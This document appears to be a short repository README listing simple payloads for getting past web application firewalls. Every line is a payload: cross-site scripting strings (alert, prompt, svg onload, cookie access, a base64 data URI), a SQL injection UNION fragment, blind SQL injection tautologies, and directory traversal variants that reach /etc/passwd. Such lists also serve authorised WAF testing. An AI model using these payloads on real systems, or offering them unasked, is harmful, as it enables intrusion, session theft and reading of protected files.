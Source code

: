 The following are the simple payloads that can be used to bypass WAFs.
> Note: Since these are pretty common, this may not work 100% of the time.
## Cross-Site Scripting
- `prompt('xss')`
- `prompt(8)`
- `confirm('xss')`
- `confirm(8)`
- `alert(/xss/.source)`
- `window[/alert/.source](8)`
- `with(document)alert(cookie)`
- `alert(document['cookie'])`
- `alert(document[/cookie/.source])`
- `alert(document[/coo/.source+kie/.source])`
- `<svg/onload=alert(1)>`
- `<video src=x onerror=alert(1);>`
- `<audio src=x onerror=alert(1);>`
- `javascript:alert(document.cookie)`
- `data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=`
## SQL Injection UNION
- `UNION ALL SELECT`
## Blind SQL Injection
- `' or 6=6`
- `' or 0x47=0x47`
- `or char(32)=''`
- `or 6 is not null`
## Directory Traversal
- `/too/../etc/far/../passwd`
- `/etc//passwd`
- `/etc/ignore/../passwd`
- `/etc/passwd.......`